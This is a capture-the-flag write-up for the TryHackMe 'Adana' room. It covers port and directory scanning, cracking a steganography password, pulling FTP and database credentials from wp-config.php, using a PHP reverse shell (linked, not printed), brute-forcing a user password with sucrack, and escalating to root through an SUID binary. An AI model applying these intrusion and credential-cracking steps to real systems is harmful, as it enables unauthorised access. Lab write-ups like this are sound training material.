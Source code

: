 # Different CTF

https://tryhackme.com/room/adana // room
https://tryhackme.com/p/hakanbey01 // room owner

### Task 1 Basic scan
can be done with nmap and gobuster

###### Nmap scan

`$ nmap -vv -p- IPADDR`

    Discovered open port 80/tcp on 10.10.228.110
    Discovered open port 21/tcp on 10.10.228.110
    PORT   STATE SERVICE REASON
    21/tcp open  ftp     syn-ack
    80/tcp open  http    syn-ack


###### gobuster result

`$ gobuster dir -u http://IPADDR -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -q -t 30`

    /wp-content           (Status: 301) [Size: 319] [--> http://10.10.228.110/wp-content/]
    /a[REDACTED]       (Status: 301) [Size: 322] [--> http://10.10.228.110/a[REDACTED]/]
    /wp-includes          (Status: 301) [Size: 320] [--> http://10.10.228.110/wp-includes/]  
    /javascript           (Status: 301) [Size: 319] [--> http://10.10.228.110/javascript/]   
    /wp-admin             (Status: 301) [Size: 317] [--> http://10.10.228.110/wp-admin/]     
    /phpmyadmin           (Status: 301) [Size: 319] [--> http://10.10.228.110/phpmyadmin/] 


### Task 2 Localhost
`http://IPADDR/a[REDACTED]`

[![/a](https://i.imgur.com/KGz41yt.png "/a")](https://i.imgur.com/KGz41yt.png "/a")

now we have a image and wordlist looks like a job for stegcracker

password was at the eof took some time to crack

`$ stegcracker austrailian-bulldog-ant.jpg wordlist.txt`

    Successfully cracked file with password: [REDACTED]
    Tried 49--- passwords
    Your file has been written to: austrailian-bulldog-ant.jpg.out
    [REDACTED]

`$ cat austrailian-bulldog-ant.jpg.out `

    RlRQL[REDACTED]nRwClBBU1M6IDEyM2FkYW5hY3JhY2s=

`$ cat austrailian-bulldog-ant.jpg.out  | base64 -d`

    FTP-LOGIN
    USER: hakanftp
    PASS: 123[REDACTED]

`$ ftp IPADDR`

    ftp> ls -la
    200 PORT command successful. Consider using PASV.
    150 Here comes the directory listing.
    drwxrwxrwx    8 1001     1001         4096 Jan 15 12:26 .
    drwxrwxrwx    8 1001     1001         4096 Jan 15 12:26 ..
    -rw-------    1 1001     1001           88 Jan 13 11:06 .bash_history
    drwx------    2 1001     1001         4096 Jan 11 10:29 .cache
    drwx------    3 1001     1001         4096 Jan 11 10:29 .gnupg
    -rw-r--r--    1 1001     1001          554 Jan 10 22:26 .htaccess
    drwxr-xr-x    2 0        0            4096 Jan 14 16:49 announcements
    -rw-r--r--    1 1001     1001          405 Feb 06  2020 index.php
    -rw-r--r--    1 1001     1001        19915 Feb 12  2020 license.txt
    -rw-r--r--    1 1001     1001         7278 Jun 26  2020 readme.html
    -rw-r--r--    1 1001     1001         7101 Jul 28  2020 wp-activate.php
    drwxr-xr-x    9 1001     1001         4096 Dec 08 22:13 wp-admin
    -rw-r--r--    1 1001     1001          351 Feb 06  2020 wp-blog-header.php
    -rw-r--r--    1 1001     1001         2328 Oct 08  2020 wp-comments-post.php
    -rw-r--r--    1 0        0            3194 Jan 11 09:55 wp-config.php
    drwxr-xr-x    4 1001     1001         4096 Dec 08 22:13 wp-content
    -rw-r--r--    1 1001     1001         3939 Jul 30  2020 wp-cron.php
    drwxr-xr-x   25 1001     1001        12288 Dec 08 22:13 wp-includes
    -rw-r--r--    1 1001     1001         2496 Feb 06  2020 wp-links-opml.php
    -rw-r--r--    1 1001     1001         3300 Feb 06  2020 wp-load.php
    -rw-r--r--    1 1001     1001        49831 Nov 09 10:53 wp-login.php
    -rw-r--r--    1 1001     1001         8509 Apr 14  2020 wp-mail.php
    -rw-r--r--    1 1001     1001        20975 Nov 12 14:43 wp-settings.php
    -rw-r--r--    1 1001     1001        31337 Sep 30  2020 wp-signup.php
    -rw-r--r--    1 1001     1001         4747 Oct 08  2020 wp-trackback.php
    -rw-r--r--    1 1001     1001         3236 Jun 08  2020 xmlrpc.php
    226 Directory send OK.
    ftp> 

[Click to download php reverse shell](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php "Click to download php reverse shell")

[i used my own php shell click to go github page](https://github.com/rootkral4/phpreverseshell "i used my own php shell click to go github page")

i tried to upload php shell but server responded with 404
so download and read wp-config.php

` $ head -n 40 wp-config.php`

    define( 'DB_NAME', 'phpmyadmin1' );
    
    /** MySQL database username */
    define( 'DB_USER', 'phpmyadmin' );
    
    /** MySQL database password */
    define( 'DB_PASSWORD', '[REDACTED]' );
    
    /** MySQL hostname */
    define( 'DB_HOST', 'localhost' );
    
    /** Database Charset to use in creating database tables. */
    define( 'DB_CHARSET', 'utf8mb4' );
    
    /** The Database Collate type. Don't change this if in doubt. */
    define( 'DB_COLLATE', '' );


`http://IPADDR/phpmyadmin`

logged in via creds in wp-config.php

[![](https://i.imgur.com/5Wjx7Zr.png)](https://i.imgur.com/5Wjx7Zr.png)

there is 2 phpmyadmin db
phpmyadmin1 -> wp_options -> site_url was a subdomain

`$ nano /etc/hosts` //add subdomain to hosts

`http://subdomain.adana.thm/`

this subdomain was same as main website
when i move to /phpshell.php, yes! php shell is here
got reverse shell finally

    remote@machine$ cd ..
    remote@machine$ cd html
    remote@machine$ cat wwe3bbfla4g.txt
    THM{343a7[REDACTED]c346edff}

then i searched for suid files nad found this one but others has no execute perm

    -rwxr-x--- 1 root hakanbey 238080 Nov  5  2017 /usr/bin/find

In this case, we know that we need to switch to the hakanbey user. Due to the similarity of stego and ftp passwords, the password of the hakanbey user can also be in this format.
123adana is prefix for passwords, created a wordlist(used wordlist.txt on ftp) with this prefix
after that i sent sucrack to remote machine 

`remote@machine$ dpkg -x sucrack_1.2.3-5+b1_amd64.deb sucrack`

`remote@machine$ sucrack -w 100 -b 500 -u hakanbey wordlist.txt`

after short period of time sucrack was succed

`remote@machine$ su hakanbey`

    THM{8ba9d7[REDACTED]d00e67127} //user flag

`remote@machine$ find / -perm -4000 -type f 2>/dev/null` // scanning for suid again

    /usr/bin/binary

`remote@machine$ ltrace ./binary`

    strcat("***", "****")                                                                                    = "******"
    strcat("******", "**")                                                                                  = "********"
    strcat("*********", "***")                                                                               = "************"
    strcat("************", "**")                                                                             = "*************"
    printf("I think you should enter the cor"...)                                                            = 52
    __isoc99_scanf(0x561c5b518edd, 0x7fff99056ac0, 0, 0I think you should enter the correct string here ==>^C <no return ...>
    --- SIGINT (Interrupt) ---
    +++ killed by SIGINT +++

got string

`remote@machine$ ./binary`

    I think you should enter the correct string here ==>w*************
    Hint! : Hexeditor 00000020 ==> ???? ==> /home/hakanbey/root.jpg (CyberChef)
    
    Copy /root/root.jpg ==> /home/hakanbey/root.jpg

    00000000  FF D8 FF E0  00 10 4A 46   49 46 00 01  01 01 00 60                                                                                             ......JFIF.....`
    00000010  00 60 00 00  FF E1 00 78   45 78 69 66  00 00 4D 4D                                                                                             .`.....xExif..MM
    00000020  ** ** ** **  ** ** ** **   ** ** ** **  ** ** ** **                        // hint points this line                                                                     ...=y._..m..i..u
    00000030  00 00 00 56  03 01 00 05   00 00 00 01  00 00 00 68                                                                                             ...V...........h
    00000040  03 03 00 01  00 00 00 01   00 00 00 00  51 10 00 01                                                                                             ............Q...
    00000050  00 00 00 01  01 00 00 00   51 11 00 04  00 00 00 01                                                                                             ........Q.......
    00000060  00 00 0E C4  51 12 00 04   00 00 00 01  00 00 0E C4                                                                                             ....Q...........
    00000070  00 00 00 00  41 64 6F 62   65 20 49 6D  61 67 65 52                                                                                             ....Adobe ImageR
    00000080  65 61 64 79  00 00 00 01   86 A0 00 00  B1 8F FF DB                                                                                             eady............
    00000090  00 43 00 02  01 01 02 01   01 02 02 02  02 02 02 02                                                                                             .C..............
    000000A0  02 03 05 03  03 03 03 03   06 04 04 03  05 07 06 07                                                                                             ................

`https://cyberchef.com`

From HEX > To Base85
    root:[REDACTED]

`remote@machine$ su root`

    THM{c5a9d3[REDACTED]4466a6c}
